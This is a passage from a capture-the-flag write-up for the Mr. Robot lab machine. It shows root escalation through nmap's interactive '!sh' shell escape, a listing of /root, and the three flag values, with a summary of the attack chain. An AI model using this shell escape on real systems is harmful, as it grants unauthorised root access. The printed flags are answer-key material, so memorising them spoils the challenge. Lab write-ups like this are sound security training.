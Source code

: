 Nmap's help indicates that we can run shell commands in the foreground.

```sh
nmap> h
```
```sh
! <command>   -- runs shell command given in the foreground
```

We can use this option to our advantage and spawn a root shell.

```sh
nmap> !sh
!sh
# whoami
root
```

Now, that we have root privileges, we can check out what is inside the `/root` folder.

```sh
# cd /root
# ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
```

```sh
# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

# Summary

Mr. Robot is a great introduction to test our basic web application penetration testing skills: reconnaissance with Nmap, POST request capturing with Burp Suite, password cracking using bute force dictionary attack, establishing a reverse shell connection, and escalating privileges to gain root access.

```sh
cat key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9
```

```sh
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

```sh
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

